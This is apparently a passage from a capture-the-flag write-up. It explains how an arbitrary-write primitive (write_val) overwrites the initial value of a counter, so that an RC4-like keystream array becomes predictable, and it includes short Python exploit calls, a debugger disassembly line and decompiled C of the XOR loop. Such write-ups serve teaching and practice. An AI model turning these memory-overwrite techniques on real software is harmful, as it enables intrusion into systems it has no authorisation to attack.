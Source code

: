 ```python
while True:
    out = write_val(0x288, 0) # return value is the byte that has been written
    log.info(out)
    if out == 0:
        break
```

It was afterwards that it struck us that this can be done without any bruteforce, by overwriting the initialization value of `k`.

```
gef➤ x/i 0x000555555555559
 0x555555555559:	mov    DWORD PTR [rbp-0x7c],0x0
```

As you can see, the instruction is 'mov _DWORD_ PTR' (makes sense as `k` is an int variable).
So we can overwrite the second last byte with any number (other than 0 of course) and k is larger than 0xff!
Here we have a 1/256 probablity of being _wrong_! Thus no bruteforce required...

```python
 out = write_val(0x1de, 0)
```

So what did we gain from this? Well now `rand_val_array` is not random anymore. It is just an array with
`array[i]=i`. Now lets take a look at the code that does the xoring...

```c
a = 0;
b = 0;
for ( l = 0; input_size > l; ++l )
{
  a = (a + 1);
  b = (rand_val_array[a] + b);

  // Swapping now
  v12 = &rand_val_array[a];
  v11 = &rand_val_array[b];
  v10 = *v12;
  *v12 = *v11;
  *v11 = v10;

  v9 = rand_val_array[(rand_val_array[a] + rand_val_array[b])];
  *(l + save_area) = v9 ^ *(l + target);
}
```

Lets assume that our `input_size` is always 1 (we give only one bytes at a time). Thus the loop will run only
once. The snippet updates the value of `a` and `b`, swaps `rand_val_array[a]` with `rand_val_array[b]` and xors a byte from the target address with `rand_val_array[(rand_val_array[a] + rand_val_array[b])]`. Since the loop
runs only once, the swapping has no effect
(`rand_val_array[a] + rand_val_array[b]` = `rand_val_array[b] + rand_val_array[a]`)
